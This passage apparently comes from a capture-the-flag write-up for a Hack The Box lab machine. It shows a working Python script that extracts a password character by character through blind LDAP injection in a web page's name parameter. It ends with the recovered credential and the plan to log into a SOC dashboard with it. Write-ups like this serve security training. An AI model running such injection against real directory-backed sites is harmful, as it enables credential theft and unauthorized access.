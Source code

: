 ```python
import requests
import string

dictionary=string.digits+string.ascii_lowercase+string.ascii_uppercase+'@'+'.'+'#'+'$'+'%'+'&'+'*'

pattern="http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description={FUZZPASS}{FUZZCHAR}*)"

password=""
run=True

print("\n[+] Running stuff...\n")

while run==True:
    run=False
    pattern="http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description={FUZZPASS}{FUZZCHAR}*)"
     
    for char in dictionary:
        if char=='*':
            pattern="http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description={FUZZPASS}{FUZZCHAR})"
        
        url=pattern.replace("{FUZZCHAR}",char).replace("{FUZZPASS}",password)
        
        response=requests.get(url)

        if "technician" in response.text:
            print("[+] Char found:",password+char)
            password+=char
            run=True
            break

print("\n[+] Removing trailing characters...")
if password[-1]=='*':
    password=password.rstrip('*')

print("\n[+] Password found: ",password)
```
There are 2 things to remark:
* Since we are using wildcards in the pattern URL, we have to take into account the case an asterisk (*) is used in the middle of the password.
* For the same reason, there will always be an asterisk at the end of the password found (a trailing character). Bear in mind trailing characters must be removed at the end of the password before finishing the process.

![Untitled11](https://github.com/g1vi/AllTheWriteUps/assets/120142960/291101d9-2854-4d0c-845d-25e49d64c4a2)

The `description` field looks like a password. Let's try credential `technician@analysis.htb:97NTtl*4QP96Bv` in the employees portal to login into the SOC dashboard.<br>
<br>
